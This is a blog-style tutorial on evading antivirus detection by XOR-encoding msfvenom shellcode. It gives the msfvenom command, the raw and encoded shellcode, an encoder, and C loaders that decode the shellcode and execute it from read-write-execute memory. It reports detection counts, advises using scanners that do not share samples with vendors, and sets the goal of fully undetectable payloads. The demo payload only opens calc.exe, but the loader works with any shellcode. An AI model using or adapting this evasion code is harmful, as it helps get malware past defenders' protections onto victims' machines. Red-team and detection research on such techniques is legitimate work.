 ```yaml
---
layout: post
title: Antivirus Evasion - XOR Encryption
subtitle: Is It Still Detectable?
cover-img: /assets/img/evasion/xor/evasion-thumb.png
thumbnail-img: ""
tags: [evasion, security]
---
```

Hello Guys, In this tutorial, we will learn to bypass antivirus detection for payload execution. We will be using XOR encryption as an obfuscation technique.

The objective of this tutorial is to bypass maximum antivirus and not create a fully undetectable payload. Rather, we will follow a series of steps to make sure how it can be made FUD.

## What is XOR encryption?

In other encryption techniques, we encrypt the data (plaintext) with a key, and to get the original data back from ciphertext we perform a decryption process. 

But in XOR encryption, we encrypt the plaintext with a key to get ciphertext. The interesting fact is that to get the original data (plaintext) back, we re-encrypt the data with the same key used, i.e., the decryption process is itself encryption.

The below images might help you get an idea of how exactly XOR logic works.

![xor operation](../assets/img/evasion/xor/xor-operation.png)

![xor operation reverse](../assets/img/evasion/xor/xor-operation-reverse.png)

## Detection without XOR

For generating the shell code, we are using msfvenom. Before starting the actual antivirus evasion process using the XOR technique, let's check how many antivirus programs detect the payload without any evasion technique.

The msfvenom command to generate a shellcode that runs calc.exe is as follows:
~~~
msfvenom -p windows/x64/exec CMD=calc.exe -b "x00" -f c --platform Windows
~~~

The above command will generate shell code that executes on the x64 architecture.

The shellcode generated is as follow:
~~~
unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd";
~~~

We will use C lang for compiling the shellcode into an executable that can run on the x64 system.

The C lang template is as follows:
~~~c
#include <stdio.h>
#include <windows.h>
unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd"; // Replace Your Shell Code Here
int main()
{
 void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 memcpy(exec, buf, sizeof buf);
 ((void(*)())exec)();
 return 0;
}
~~~

We get the result, the calc.exe does gets executed.

![result without xor](../assets/img/evasion/xor/result-without-xor.png)

The compiled exe gets detected by 13 antivirus engines out of 40. 

![before xor](../assets/img/evasion/xor/before-xor.png)

{: .box-note}
**NOTE:** Never upload your samples to Virustotal, Use [AntiScan](https://antiscan.me/) or [KleenScan](https://www.kleenscan.com/index). 

## Detection with XOR


Let's try XOR encryption to see how many AVs it is able to bypass.

The C Lang template to generate XOR-ed shell code is as follows:
~~~c
#include <stdio.h>

unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd"; // Place Previous Generated Shell Code Here

int main()
{
 char key = 'M';
 int i = 0;
 for (i; i<sizeof(buf); i++)
 {
  printf("\\x%02x",buf[i]^key);
 }
 
}
~~~
You can change the value of the key as per your needs (it can only be a single character).

The XOR-ed shell code is
~~~ 
\x05\x7c\x84\x05\xcc\xa4\x90\xb2\xb2\xb2\x05\xc0\x48\xa2\xb2\xb2\xb2\x05\xf6\x99\x92\x96\xbe\x42\x22\xfa\xb0\x05\x7c\x15\x6a\x05\x60\xb5\xb2\xb2\xb2\xaf\xb9\x65\xda\x15\x5a\xb2\xca\x3a\xb0\x99\x92\xd7\xef\x03\x72\xa8\xe1\xcf\xda\xa7\x6c\x27\x6a\x71\xe2\xf9\xda\x1d\xec\x5a\x6a\x71\xe2\xb9\xda\x1d\xcc\x12\x6a\xf5\x07\xd3\xd8\xdb\x8f\x8b\x6a\xcb\x70\x35\xae\xf7\xc2\x40\x0e\xda\xf1\x58\x5b\x9b\xff\x43\xe3\x18\x5d\xcb\xd3\xc7\xf6\xc9\x70\xda\x3b\xdb\xae\xde\xbf\x92\xa9\x7a\x38\x99\x92\x96\xf6\xc7\xe2\x8e\xd7\xd1\x93\x46\xee\xc9\x6a\xe2\xf4\x12\xd2\xb6\xf7\x43\xf2\x19\xe6\xd1\x6d\x5f\xff\xc9\x16\x72\xf8\x98\x44\xdb\x8f\x8b\x6a\xcb\x70\x35\xd3\x57\x77\x4f\x63\xfb\x71\xa1\x72\xe3\x4f\x0e\x21\xb6\x94\x91\xd7\xaf\x6f\x37\xfa\xa2\xf4\x12\xd2\xb2\xf7\x43\xf2\x9c\xf1\x12\x9e\xde\xfa\xc9\x62\xe6\xf9\x98\x42\xd7\x35\x46\xaa\xb2\xb1\x49\xd3\xce\xff\x1a\x7c\xa3\xea\xd8\xca\xd7\xe7\x03\x78\xb2\x33\x75\xb2\xd7\xec\xbd\xc2\xa2\xf1\xc0\xc8\xde\x35\x50\xcb\xad\x4f\x66\x6d\xcb\xf6\xf8\x23\xfa\xb0\x99\x92\x96\xbe\x42\x6a\x77\x3d\x98\x93\x96\xbe\x03\x98\xcb\x3b\xf6\x15\x69\x6b\xf9\xd2\x4f\x12\xcf\xd3\x2c\x18\xd7\x9f\x67\x4f\x4c\xda\x15\x7a\x6a\x1e\xfc\xcc\x93\x12\x6d\x5e\x37\x27\x41\xf7\x8a\xe0\xf9\xd4\x42\x7b\xbb\x39\x43\x6d\x43\xdd\x23\x4e\x99\x9e\xfc\xea\xf3\xbe\x42\x22\xfa\xb0\x4d
~~~

The C lang code to run the XOR-ed shellcode is
~~~c
#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\x05\x7c\x84\x05\xcc\xa4\x90\xb2\xb2\xb2\x05\xc0\x48\xa2\xb2\xb2\xb2\x05\xf6\x99\x92\x96\xbe\x42\x22\xfa\xb0\x05\x7c\x15\x6a\x05\x60\xb5\xb2\xb2\xb2\xaf\xb9\x65\xda\x15\x5a\xb2\xca\x3a\xb0\x99\x92\xd7\xef\x03\x72\xa8\xe1\xcf\xda\xa7\x6c\x27\x6a\x71\xe2\xf9\xda\x1d\xec\x5a\x6a\x71\xe2\xb9\xda\x1d\xcc\x12\x6a\xf5\x07\xd3\xd8\xdb\x8f\x8b\x6a\xcb\x70\x35\xae\xf7\xc2\x40\x0e\xda\xf1\x58\x5b\x9b\xff\x43\xe3\x18\x5d\xcb\xd3\xc7\xf6\xc9\x70\xda\x3b\xdb\xae\xde\xbf\x92\xa9\x7a\x38\x99\x92\x96\xf6\xc7\xe2\x8e\xd7\xd1\x93\x46\xee\xc9\x6a\xe2\xf4\x12\xd2\xb6\xf7\x43\xf2\x19\xe6\xd1\x6d\x5f\xff\xc9\x16\x72\xf8\x98\x44\xdb\x8f\x8b\x6a\xcb\x70\x35\xd3\x57\x77\x4f\x63\xfb\x71\xa1\x72\xe3\x4f\x0e\x21\xb6\x94\x91\xd7\xaf\x6f\x37\xfa\xa2\xf4\x12\xd2\xb2\xf7\x43\xf2\x9c\xf1\x12\x9e\xde\xfa\xc9\x62\xe6\xf9\x98\x42\xd7\x35\x46\xaa\xb2\xb1\x49\xd3\xce\xff\x1a\x7c\xa3\xea\xd8\xca\xd7\xe7\x03\x78\xb2\x33\x75\xb2\xd7\xec\xbd\xc2\xa2\xf1\xc0\xc8\xde\x35\x50\xcb\xad\x4f\x66\x6d\xcb\xf6\xf8\x23\xfa\xb0\x99\x92\x96\xbe\x42\x6a\x77\x3d\x98\x93\x96\xbe\x03\x98\xcb\x3b\xf6\x15\x69\x6b\xf9\xd2\x4f\x12\xcf\xd3\x2c\x18\xd7\x9f\x67\x4f\x4c\xda\x15\x7a\x6a\x1e\xfc\xcc\x93\x12\x6d\x5e\x37\x27\x41\xf7\x8a\xe0\xf9\xd4\x42\x7b\xbb\x39\x43\x6d\x43\xdd\x23\x4e\x99\x9e\xfc\xea\xf3\xbe\x42\x22\xfa\xb0\x4d"; // XOR-ed shellcode Here
int main()
{
 char key = 'M';
 int i = 0;
 for (i; i<sizeof(buf) - 1; i++)
 {
  buf[i] = buf[i]^key;
 }
 
 
 void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 memcpy(exec, buf, sizeof buf);
 ((void(*)())exec)();
 return 0;
 
}
~~~
We get the result, the calc.exe does gets executed.

![result with xor](../assets/img/evasion/xor/result-with-xor.png)

Let's check how many antivirus programs detect the encrypted payload using XOR.

![after xor](../assets/img/evasion/xor/after-xor.png)

We were able to reduce the detection rate by almost 50% using a simple technique.

In the coming tutorial, we will explore different evasion techniques to make it FUD.